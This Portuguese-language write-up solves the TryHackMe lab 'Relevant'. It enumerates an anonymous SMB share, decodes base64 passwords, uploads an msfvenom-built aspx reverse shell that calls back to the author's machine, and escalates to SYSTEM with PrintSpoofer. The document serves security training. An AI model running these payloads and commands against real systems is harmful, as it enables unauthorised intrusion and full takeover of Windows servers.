


> [!WARNING]
> This writeup is in portuguese. For the english version, please follow [this link](./Writeup%20(EN-US).md).

# [Relevant](https://tryhackme.com/room/relevant)

<a href="https://tryhackme.com/room/relevant"><figure></figure></a>

> Penetration Testing Challenge

Capture The Flag original disponível em [TryHackMe](https://tryhackme.com/room/relevant), feito por [The Mayor](https://tryhackme.com/p/TheMayor).

Dificuldade: `Média`

Resolvido em: `2026/06/20`

# Conteúdos

- [Relevant](#relevant)
- [Conteúdos](#conteúdos)
- [Writeup](#writeup)
   * [Reconhecimento](#reconhecimento)
   * [Exploração](#exploração)
   * [Escalação de Privilégios](#escalação-de-privilégios)

# Writeup

## Reconhecimento

Comecei adicionando a máquina ao DNS local `/etc/hosts` como `rel.net` para facilitar a referência. 

```bash
$ ping -c 3 rel.net
PING rel.net (<MACHINE_IP>) 56(84) bytes of data.
64 bytes from rel.net (<MACHINE_IP>): icmp_seq=1 ttl=126 time=155 ms
64 bytes from rel.net (<MACHINE_IP>): icmp_seq=2 ttl=126 time=154 ms
64 bytes from rel.net (<MACHINE_IP>): icmp_seq=3 ttl=126 time=154 ms

--- rel.net ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2001ms
rtt min/avg/max/mdev = 153.877/154.471/155.176/0.536 ms
```

Logo em seguida, realizei um scan completo do `nmap`.[^nmap]

```bash
$ nmap -sV -sC -p- -T4 rel.net
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-20 13:31 UTC
Nmap scan report for rel.net (<MACHINE_IP>)
Host is up (0.15s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2026-06-19T13:23:14
|_Not valid after:  2026-12-19T13:23:14
|_ssl-date: 2026-06-20T13:35:32+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2026-06-20T13:34:55+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: RELEVANT; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h24m00s, deviation: 3h07m52s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-06-20T06:34:57-07:00
| smb2-time: 
|   date: 2026-06-20T13:34:54
|_  start_date: 2026-06-20T13:23:10
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 224.92 seconds
```

Máquina windows, com diversas portas abertas. Bem, já que tem `http` disponível, chequei tanto a porta `80` como a porta `49663`. Ambas, contudo, tinham apenas uma página de entrada padrão.

<figure></figure>

Nada, então. Segui para procurar algo no `smb`.[^smb]

```bash
$ smbclient -L rel.net -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to rel.net failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Os diretórios padrões estão disponíveis e, também, a pasta `nt4wrksv`. Verificando-a...

```bash
$ smbclient //rel.net/nt4wrksv -N
smb: \> ls
  .                                   D        0  Sat Jul 25 21:46:04 2020
  ..                                  D        0  Sat Jul 25 21:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 15:15:33 2020

                7735807 blocks of size 4096. 4894719 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```

Huh. `passwords.txt`.

```bash
$ cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

Ambos codificados em base 64...

```bash
$ echo Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 --decode
Bob - !P@$$W0rD!123 
$ echo QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk | base64 --decode
Bill - Juw4nnaM4n420696969!$$$
```

Legal. Eu não faço ideia do que fazer com esses valores. Com isso tentei procurar outras coisas para atacar, começando com um `gobuster`[^gobuster] nos diretórios tanto da porta `80` como da porta `49663`.

Não achei nada em ambos, mas ao tentar manualmente o diretório `/nt4wrksv` eu obtive uma página vazia na porta `49663`. Interessante! Então o diretório está aqui. Segui tentando colocar o `passwords.txt`...

<figure></figure>

Finalmente um caminho!

## Exploração

Voltei ao `smb`,[^smb] posso colocar um reverse shell[^rv] ali e conectar à máquina. Usando `msfvenom`[^msfv] eu criei um revshell:

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<MY_MACHINE> LPORT=53 -f aspx -o rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3400 bytes
Saved as: rev.aspx
```

Fiz upload ao servidor `smb`:

```bash
$  smbclient //rel.net/nt4wrksv -N
smb: \> put rev.aspx 
putting file rev.aspx as \rev.aspx (7.2 kB/s) (average 7.2 kB/s)
smb: \> ls
  .                                   D        0  Sat Jun 20 14:27:12 2026
  ..                                  D        0  Sat Jun 20 14:27:12 2026
  passwords.txt                       A       98  Sat Jul 25 15:15:33 2020
  rev.aspx                            A     3400  Sat Jun 20 14:27:12 2026

                7735807 blocks of size 4096. 4951423 blocks available
```

Abri o `netcat`[^nc] na porta `53` (como especificado no revshell) e rodei o código no link `rel.net:49663/nt4wrksv/rev.aspx`.

```bash
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

Ótimo. Segui para a flag de usuário...

```bash
c:\Users\Bob\Desktop>more user.txt
more user.txt
<FLAG_USER>
```

## Escalação de Privilégios

Checando por privilégios...

```bash
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Já vem ao olho `SeImpersonatePrivilege`. Conhecido como um ponto de exploração... Usando o payload [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), a escalação é trivial. Fiz o upload ao `smb`, novamente:

```bash
$ smbclient //rel.net/nt4wrksv -N
smb: \> put PrintSpoofer64.exe 
putting file PrintSpoofer64.exe as \PrintSpoofer64.exe (43.9 kB/s) (average 43.9 kB/s)
smb: \> ls
  .                                   D        0  Sat Jun 20 14:57:38 2026
  ..                                  D        0  Sat Jun 20 14:57:38 2026
  passwords.txt                       A       98  Sat Jul 25 15:15:33 2020
  PrintSpoofer64.exe                  A    27136  Sat Jun 20 14:57:38 2026
  rev.aspx                            A     3400  Sat Jun 20 14:27:12 2026

                7735807 blocks of size 4096. 5099235 blocks available
```

Tive de encontrar onde esses arquivos estavam localizados...

```bash
c:\> forfiles /P c:\ /M passwords.txt /S /C "cmd /c echo @path ; cmd"
forfiles /P c:\ /M passwords.txt /S /C "cmd /c echo @path"
...
"c:\inetpub\wwwroot\nt4wrksv\passwords.txt"
...
```

Fui ao diretório `c:\inetpub\wwwroot\nt4wrksv\` e executei o payload.

```bash
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer64.exe -i -c cmd  
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Muito bem.

```bash
c:\Users\Administrator\Desktop>more root.txt
more root.txt
<FLAG_ROOT>
```


[^nmap]: https://github.com/nmap/nmap
[^gobuster]: https://github.com/OJ/gobuster
[^nc]: https://nc110.sourceforge.io/
[^rv]: https://en.wikipedia.org/wiki/Shell_shoveling
[^smb]: https://en.wikipedia.org/wiki/Server_Message_Block
[^msfv]: https://github.com/SploitHQ/msfvenom